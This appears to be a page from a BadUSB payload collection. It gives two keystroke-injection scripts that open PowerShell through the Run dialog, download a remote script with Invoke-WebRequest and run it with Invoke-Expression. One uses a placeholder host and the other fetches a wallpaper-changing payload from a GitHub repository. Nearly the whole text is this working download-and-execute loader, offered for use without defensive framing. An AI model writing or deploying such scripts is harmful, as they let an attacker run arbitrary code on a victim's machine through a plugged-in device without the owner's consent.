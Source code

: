 Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255


Change wallpaper

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255
